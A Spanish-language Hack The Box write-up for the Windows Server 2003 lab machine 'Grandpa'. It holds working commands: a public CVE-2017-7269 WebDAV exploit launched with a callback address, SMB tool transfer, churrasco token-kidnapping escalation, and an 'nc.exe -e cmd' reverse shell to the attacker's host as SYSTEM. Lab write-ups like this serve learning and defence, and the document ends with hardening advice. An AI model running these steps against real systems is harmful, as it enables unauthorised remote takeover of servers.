# Grandpa — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Windows  
**Autor de la máquina:** ch4p  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · IIS 6.0 · WebDAV · CVE-2017-7269 · ScStoragePathFromUrl · Buffer Overflow · SMB Share · SeImpersonatePrivilege · Churrasco · Privilege Escalation

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — CVE-2017-7269 (WebDAV Buffer Overflow)](#3-acceso-inicial--cve-2017-7269-webdav-buffer-overflow)
4. [Enumeración post-explotación](#4-enumeración-post-explotación)
5. [Transferencia de herramientas vía SMB](#5-transferencia-de-herramientas-vía-smb)
6. [Escalada de privilegios — Churrasco](#6-escalada-de-privilegios--churrasco)
7. [Post-explotación y flags](#7-post-explotación-y-flags)
8. [Lección aprendida](#8-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.35.48
```



Salida obtenida:

```text
64 bytes from 10.129.35.48: icmp_seq=1 ttl=127 time=33.2 ms
```

> 💡 El valor `TTL=127` es una pista directa de que estamos frente a una máquina **Windows** (TTL inicial 128 menos un salto de red). En Linux el TTL inicial es 64.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.35.48 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza una velocidad mínima de 5000 paquetes por segundo |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
80/tcp open  http
```

> 💡 Una superficie de ataque mínima (un único puerto HTTP) obliga a centrar toda la enumeración en el servicio web.

---

## 2. Enumeración del servicio web

Una vez identificado el único puerto abierto, lanzamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sS -sCV -T5 -p80 10.129.35.48 -oN Ports
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

Salida relevante:

```text
80/tcp open  http  Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND
|     SEARCH LOCK UNLOCK DELETE PUT MKCOL PROPPATCH MOVE
|     Potentially risky methods: COPY PROPFIND PUT DELETE LOCK
|     UNLOCK MKCOL PROPPATCH MOVE SEARCH
|_http-webdav-scan: WebDAV is ENABLED
```

> 💡 Tres detalles que **delatan completamente** la máquina:
> - **Microsoft IIS 6.0** → propio de Windows Server 2003 (sin parches desde 2015).
> - **WebDAV habilitado** → permite escritura remota de ficheros (PUT, MKCOL, COPY, MOVE).
> - **Métodos de riesgo expuestos** → la combinación de IIS 6.0 + WebDAV apunta directamente a la vulnerabilidad **CVE-2017-7269**, un *buffer overflow* en el manejador `ScStoragePathFromUrl` del módulo WebDAV.

---

## 3. Acceso inicial — CVE-2017-7269 (WebDAV Buffer Overflow)

### Búsqueda del exploit

```bash
searchsploit IIS 6.0
```



El resultado más interesante es el exploit remoto para WebDAV. Confirmamos los detalles en Exploit-DB:



```text
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
EDB-ID: 41738   CVE: 2017-7269   Author: Zhiniang Peng & Chen Wu
Platform: Windows   Date: 2017-03-27
```

> 💡 La vulnerabilidad reside en la función `ScStoragePathFromUrl` cuando se procesa una cabecera `If:` con una URL excesivamente larga en una petición `PROPFIND`. El overflow permite **ejecución remota de código sin autenticación** en el proceso `w3wp.exe` de IIS.

---

### Localización del PoC

El exploit original es algo crudo. Usamos un fork público en GitHub que automatiza la generación del shellcode y el envío de la petición vulnerable:

```text
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```



```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
cd iis6-exploit-2017-CVE-2017-7269
```

---

### Ejecución del exploit

Antes de lanzarlo, iniciamos un listener con Netcat en otra terminal.

```bash
nc -lvnp 443
```

### Explicación

| Parámetro | Función |
|---|---|
| `-l` | Modo escucha |
| `-v` | Verbose |
| `-n` | No resuelve DNS |
| `-p 443` | Puerto de escucha (443 evade habitualmente filtrados de salida) |

A continuación lanzamos el exploit (es código Python 2, no Python 3).

```bash
python2 shell.py 10.129.35.48 80 10.10.14.63 443
```



### Explicación de parámetros del exploit

| Parámetro | Función |
|---|---|
| `10.129.35.48` | IP de la víctima |
| `80` | Puerto del servicio IIS vulnerable |
| `10.10.14.63` | IP del atacante (LHOST) |
| `443` | Puerto del listener (LPORT) |

Inmediatamente recibimos la conexión:



```text
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.35.48] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

> 💡 Estamos dentro de `inetsrv` (la carpeta del *worker process* de IIS). La shell hereda el contexto del usuario que ejecuta `w3wp.exe`, que en IIS 6.0 por defecto es **NETWORK SERVICE** — una cuenta de bajo privilegio. No somos SYSTEM todavía.

---

## 4. Enumeración post-explotación

### Privilegios de la cuenta actual

Inspeccionamos los privilegios del usuario que ejecuta la shell.

```cmd
whoami /priv
```



Salida relevante:

```text
Privilege Name                   State
==============================   ========
SeImpersonatePrivilege           Enabled
SeCreateGlobalPrivilege          Enabled
```

> 💡 **`SeImpersonatePrivilege`** es la llave maestra: permite hacerse pasar por **cualquier otro token** del sistema, incluido el de `NT AUTHORITY\SYSTEM`. Esta combinación es la base de la familia de exploits *Potato* (RottenPotato, JuicyPotato, RoguePotato, PrintSpoofer, GodPotato…).

---

### Información del sistema

```cmd
systeminfo
```



Salida relevante:

```text
Host Name:        GRANDPA
OS Name:          Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:       5.2.3790 Service Pack 2 Build 3790
System Type:      X86-based PC
```

> 💡 Estamos en un **Windows Server 2003 SP2 de 32 bits**. Este detalle es crítico: la familia *JuicyPotato* clásica **no funciona** en Server 2003 (el mecanismo COM que abusa no existe en esa versión). Necesitamos un exploit equivalente pero compatible con sistemas antiguos: **`churrasco.exe`**.

---

## 5. Transferencia de herramientas vía SMB

### Por qué SMB y no HTTP

Las dos formas habituales de subir un binario a una shell Windows son:

| Método | Comando | Notas |
|---|---|---|
| HTTP (PowerShell `Invoke-WebRequest`) | `powershell -c "iwr http://IP/file -OutFile X"` | No disponible en Server 2003 (no hay PowerShell por defecto) |
| HTTP (`certutil`) | `certutil -urlcache -split -f http://IP/file X` | Funciona, pero genera alertas en EDR modernos |
| SMB | `copy \\IP\share\file.exe X` | Limpio, funciona en todas las versiones de Windows |

Para Windows Server 2003 la opción más fiable es **SMB**.

---

### Churrasco — el JuicyPotato de Server 2003

Antes de continuar, breve repaso teórico del exploit que vamos a usar:



> 💡 **`churrasco.exe`** abusa de `SeImpersonatePrivilege` mediante un *token kidnapping* clásico: provoca que un servicio privilegiado se conecte a una *named pipe* controlada por el atacante, captura su token de impersonación y lo usa para ejecutar comandos en el contexto de `SYSTEM`. Es la única alternativa fiable en Server 2003, donde **`PrintSpoofer`**, **`JuicyPotato`** o **`GodPotato`** no funcionan.

---

### Levantar un servidor SMB con Impacket

Desde nuestra máquina atacante, en la carpeta donde tenemos `churrasco.exe` y `nc.exe`:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `smbFolder` | Nombre del recurso compartido que verá la víctima |
| `$(pwd)` | Carpeta local que se comparte |
| `-smb2support` | Habilita SMBv2 (Server 2003 también soporta SMBv1, pero `-smb2support` es seguro de añadir) |

---

### Listado del share desde la víctima

Desde la shell de la víctima:

```cmd
cd C:\WINDOWS\Temp
dir \\10.10.14.63\smbFolder
```



Se ven los ficheros que tenemos en nuestro Kali, incluyendo `churrasco.exe`.

---

### Copiar `churrasco.exe` a la víctima

```cmd
copy \\10.10.14.63\smbFolder\churrasco.exe churrasco.exe
dir
```



> 💡 Trabajamos en `C:\WINDOWS\Temp` porque es escribible por NETWORK SERVICE y rara vez está monitorizado.

---

## 6. Escalada de privilegios — Churrasco

### Prueba de concepto

Antes de lanzar la reverse shell con SYSTEM, validamos que `churrasco.exe` realmente eleva privilegios con un simple `whoami`.

```cmd
.\churrasco.exe -d "whoami"
```



Salida resumida:

```text
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Found Rpcss PID: 668
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have run as SYSTEM!
nt authority\system
```

✅ **Escalada confirmada**: el comando ejecutado dentro de `-d "..."` corre como **NT AUTHORITY\SYSTEM**.

---

### Reverse shell como SYSTEM

Necesitamos un binario que nos dé una shell interactiva. Usamos `nc.exe`, también vía SMB.

```cmd
copy \\10.10.14.63\smbFolder\nc.exe nc.exe
```



Iniciamos un nuevo listener en un puerto distinto al primero para no confundir conexiones.

```bash
nc -lvnp 1234
```



Y desde la shell de NETWORK SERVICE lanzamos `churrasco.exe` ejecutando `nc.exe` como SYSTEM:

```cmd
.\churrasco.exe -d "nc.exe -e cmd 10.10.14.63 1234"
```



### Explicación del payload

| Componente | Función |
|---|---|
| `churrasco.exe -d "..."` | Ejecuta el comando entre comillas con privilegios elevados |
| `nc.exe -e cmd` | Reverse shell: lanza `cmd.exe` y redirige su stdin/stdout al socket |
| `10.10.14.63 1234` | IP y puerto del listener del atacante |

---

### Obtención de shell como SYSTEM

Inmediatamente recibimos la conexión privilegiada en el segundo listener:



```text
listening on [any] 1234 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.35.48] 1037
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```

✅ Compromiso total de la máquina.

---

## 7. Post-explotación y flags

Con privilegios de `NT AUTHORITY\SYSTEM` ya podemos leer cualquier fichero del sistema. Las flags de HTB están en:

```text
C:\Documents and Settings\<usuario>\Desktop\user.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
```

```cmd
type "C:\Documents and Settings\Harry\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

✅ Máquina completada.

---

## 8. Lección aprendida

Esta máquina es la representación viva del *legacy debt*: un sistema operativo sin soporte (Server 2003 EoL desde 2015), un servidor web obsoleto (IIS 6.0) y una característica peligrosa habilitada (WebDAV). El resultado es un compromiso total en cuestión de minutos.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Sistema operativo sin soporte | Windows Server 2003 SP2 | Sin parches desde julio de 2015 |
| IIS 6.0 con WebDAV expuesto | Puerto 80 | Superficie de ataque crítica |
| Buffer Overflow en WebDAV | CVE-2017-7269 (`ScStoragePathFromUrl`) | Ejecución remota de comandos no autenticada |
| `SeImpersonatePrivilege` activo en cuenta de servicio | NETWORK SERVICE | Permite *token kidnapping* |
| Mecanismos *Potato* aplicables | Churrasco para Server 2003 | Escalada inmediata a SYSTEM |

---

## Recomendaciones defensivas

- Retirar **inmediatamente** cualquier sistema con Windows Server 2003 / IIS 6.0 de entornos productivos: no recibe parches desde 2015 y existen exploits públicos triviales.
- Si no es posible migrar, **deshabilitar WebDAV** desde IIS Manager o eliminar la extensión (`%SystemRoot%\system32\inetsrv\httpext.dll`).
- Aplicar el principio de mínimo privilegio en cuentas de servicio: revocar `SeImpersonatePrivilege` siempre que sea posible.
- Segmentar la red: un IIS público nunca debería tener acceso de SMB hacia direcciones externas (impide la transferencia de herramientas como `churrasco.exe`).
- Monitorizar la ejecución de binarios sospechosos desde `C:\WINDOWS\Temp` y otras rutas escribibles por usuarios no privilegiados.
- Implementar EDR/AppLocker para bloquear binarios *single-purpose* tipo `churrasco.exe`, `nc.exe`, `JuicyPotato.exe`, `PrintSpoofer.exe`, etc.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
